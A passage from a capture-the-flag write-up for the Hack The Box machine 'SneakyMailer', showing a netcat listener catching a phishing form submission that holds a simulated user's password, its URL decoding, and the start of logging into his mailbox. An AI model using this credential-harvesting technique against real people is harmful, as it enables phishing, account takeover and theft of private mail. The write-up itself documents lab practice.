 ```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ nc -lvnp 8090                                                                                  1 ⨯
listening on [any] 8090 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.10.197] 51434
POST / HTTP/1.1
Host: 10.10.14.174:8090
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Got a click! The user Paul Byrd clicked on my link and gave me a \(URL-encoded\) password.

```text
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

This decoded to give me a \(super-complicated\) password of:

```text
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

### Reading Paul's mail

Since Paul was nice enough to send me his email password, I decided to log into his mailbox to see what kind of information I could find

![](../../.gitbook/assets/6-thunderbyrd.png)
